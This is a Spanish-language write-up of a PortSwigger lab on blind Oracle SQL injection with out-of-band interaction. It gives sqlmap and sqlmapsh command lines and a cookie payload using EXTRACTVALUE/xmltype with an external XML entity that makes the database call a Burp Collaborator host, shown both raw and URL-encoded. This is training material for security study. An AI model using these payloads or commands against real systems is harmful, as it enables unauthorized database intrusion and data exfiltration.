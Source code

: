 ```yaml
---
title: "Blind SQL injection with out-of-band interaction"
description: "Laboratorio de Portswigger sobre SQLI"
date: 2025-02-11 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Out Of Band)
  - Blind SQL injection with out-of-band interaction
  - Oracle Database
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `Blind SQL Injection`, la aplicación utiliza una `cookie` de seguimiento para análisis y realiza una `consulta SQL` que incluye el valor de la cookie enviada. La `consulta SQL` se ejecuta de forma asíncrona y no afecta la respuesta de la aplicación. Sin embargo, puedes `desencadenar` interacciones `out-of-band` con un `dominio externo`. Para `resolver el laboratorio`, hay que explotar la `vulnerabilidad` de `inyección SQL` para provocar una consulta `DNS` a `Burp Collaborator`

---

## Guía de SQLI

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SQLI` [https://justice-reaper.github.io/posts/SQLI/](https://justice-reaper.github.io/posts/SQLI/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-16/image_1.png)

Hay algunas `Out-of-Band SQL Injections` que no pueden ser detectadas o explotadas por `sqlmap`. En estas situaciones podemos `realizar` un `escaneo completo` con `Burpsuite` para `detectarlas`, para ello, debemos `capturar` la `petición` y pulsar `click derecho > Scan`

![](/assets/img/SQLI-Lab-16/image_2.png)

Posteriormente se nos `abrirá` esta `ventana`, en la cual debemos de `seleccionar` la opción `Crawl and audit`

![](/assets/img/SQLI-Lab-16/image_3.png)

Posteriormente deberemos `seleccionar` la `configuración` del `escaneo`. Recomendaría usar `Deep`, ya que, es el más `completo`. Una vez seleccionadas estas opciones `pulsamos` sobre `Scan`

![](/assets/img/SQLI-Lab-16/image_4.png)

Si nos dirigimos a `Dashboard` veremos que nos `detecta` la `inyección SQL`

![](/assets/img/SQLI-Lab-16/image_5.png)

Otra opción más específica es `escanear` los `insertion points`. Para ello, `enviamos` la `petición` al `Intruder` y `seleccionamos` los `insertion points` a `analizar`

![](/assets/img/SQLI-Lab-16/image_6.png)

Posteriormente pulsamos `click derecho > Scan defined insertion points > Open scan launcher`, seleccionamos `Audit selected items` y `pulsamos` sobre `Scan`

![](/assets/img/SQLI-Lab-16/image_7.png)

![](/assets/img/SQLI-Lab-16/image_8.png)

Si nos dirigimos a `Dashboard` veremos que también nos `detecta` la `inyección SQL`

![](/assets/img/SQLI-Lab-16/image_9.png)

También es posible detectar las `Out-of-Band SQL Injections` mediante `sqlmap`. Para ello, necesitamos `instalar` la `extensión` de `Burpsuite` llamada `SQLMAP DNS Collaborator`

![](/assets/img/SQLI-Lab-16/image_10.png)

Una vez instalada nos dirigimos a `Extensions > Installed` y pulsamos sobre el `nombre de la extensión`. Vemos que en la `primera línea` nos muestra un servidor `--dns-domain=gm6n1v54k2yapzbqc1di32ti59bzzo.oastify.com`, este es el que debemos usar al ejecutar `sqlmap`

![](/assets/img/SQLI-Lab-16/image_11.png)

Cada vez que queramos un `nuevo servidor` debemos `pulsar` sobre el `cuadro de texto` de la `extensión` para `desactivarla` y luego `pulsar nuevamente` para cargarla

![](/assets/img/SQLI-Lab-16/image_12.png)

Ejecutamos `sqlmap` con `sudo`

```
# sudo sqlmap -u https://0a8000ee030f0a7b80b708ab00fe001a.web-security-academy.net/ --risk=3 --level=5 --random-agent --batch --dbs --cookie="TrackingId=ltMxaizgXCdtiCXN*; session=ekfByIBkIPxRiuEoPiRItaXMNC3HwXSB" --dns-domain=gm6n1v54k2yapzbqc1di32ti59bzzo.oastify.com --dbms oracle
```

Si encuentra algo, se `mostrará` en el apartado de `Show in UI`

![](/assets/img/SQLI-Lab-16/image_13.png)

Como alternativa, podemos usar `sqlmapsh` [https://github.com/unlock-security/sqlmapsh.git](https://github.com/unlock-security/sqlmapsh.git). Se usaría de la misma forma que `sqlmap`, pero no es necesario proporcionar el parámetro `--dns-domain`, ya que lo hace internamente

```
# sudo sqlmapsh -u https://0a8000ee030f0a7b80b708ab00fe001a.web-security-academy.net --risk=3 --level=5 --random-agent --dbs --batch --cookie="TrackingId=ltMxaizgXCdtiCXN*; session=ekfByIBkIPxRiuEoPiRItaXMNC3HwXSB"
```

Este `laboratorio` no se puede resolver usando `sqlmap` o `sqlmapsh`. La única forma que hay de `identificar` la `inyección SQL` es `manualmente` o mediante el `escáner` de `Burpsuite`. Si `capturamos` la `petición` a la web con `Burpsuite` vemos un campo llamado `TrackingId`, probando los `payload` de [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). En este caso vamos a usar este `payload`

![](/assets/img/SQLI-Lab-16/image_14.png)

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)-- - 
```

Antes de enviar la petición debemos hacer `click` en `Collaborator > Copy to clipboard`. Sustituimos el campo `BURP-COLLABORATOR-SUBDOMAIN` por el `subdominio` copiado 

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://ek2f0ugba257uzxtntvmsb5twk2bq2er.oastify.com/"> %remote;]>'),'/l') FROM dual)-- - ; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

Una vez hecho esto debemos `urlencodear` el `payload` y `enviar` la `petición`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//ek2f0ugba257uzxtntvmsb5twk2bq2er.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--+-+; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

Si nos dirigimos a la parte de `Collaborator` y pulsamos en `Poll now` nos llegarán las `peticiones` a nuestro servidor

![](/assets/img/SQLI-Lab-16/image_15.png)
